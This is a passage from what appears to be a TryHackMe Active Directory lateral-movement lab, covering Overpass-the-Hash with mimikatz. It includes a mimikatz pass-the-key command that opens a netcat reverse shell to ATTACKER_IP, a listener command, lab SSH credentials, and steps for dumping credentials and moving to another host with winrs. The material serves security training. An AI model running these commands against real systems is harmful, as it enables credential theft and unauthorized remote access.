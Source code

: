 ```shell-session
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

Notice that when using RC4, the key will be equal to the NTLM hash of a user. This means that if we could extract the NTLM hash, we can use  it to request a TGT as long as RC4 is one of the enabled protocols. This particular variant is usually known as **Overpass-the-Hash (OPtH)**.

To receive the reverse shell, we should run a reverse listener on our AttackBox:

- **AttackBox**        

```shell-session
user@AttackBox$ nc -lvp 5556
        
```

Just as with PtH, any command run from this shell will use the credentials injected via mimikatz.

## Let's Get to Work!

To begin this exercise, you will need to connect to THMJMP2 using the following credentials via SSH:

**User:** ZA.TRYHACKME.COM\t2_felicia.dean

**Password:** iLov3THM!

```
ssh za\\t2_felicia.dean@thmjmp2.za.tryhackme.com
```

These credentials will grant you administrative access to THMJMP2,  allowing you to use mimikatz to dump the authentication material needed  to perform any of the techniques presented during this task.

Using your SSH session, use mimikatz to extract authentication material and  perform Pass-the-Hash, Pass-the-Ticket or Pass-the-Key against domain  user `t1_toby.beck`.

Once you have a command prompt with his credentials loaded, use `winrs` to connect to a command prompt on THMIIS. Since t1_toby.beck's  credentials are already injected in your session as a result of any of  the attacks, you can use winrs without specifying any credentials, and  it will use the ones available to your current session:

```shell-session
winrs.exe -r:THMIIS.za.tryhackme.com cmd
```

You'll find a flag on t1_toby.beck's desktop on THMIIS. Both `mimikatz` and `psexec64` are available at `C:\tools` on THMJMP2.

#  Abusing User Behaviour                            

Under certain  circumstances, an attacker can take advantage of actions performed by  users to gain further access to machines in the network. While there are many ways this can happen, we will look at some of the most common  ones.
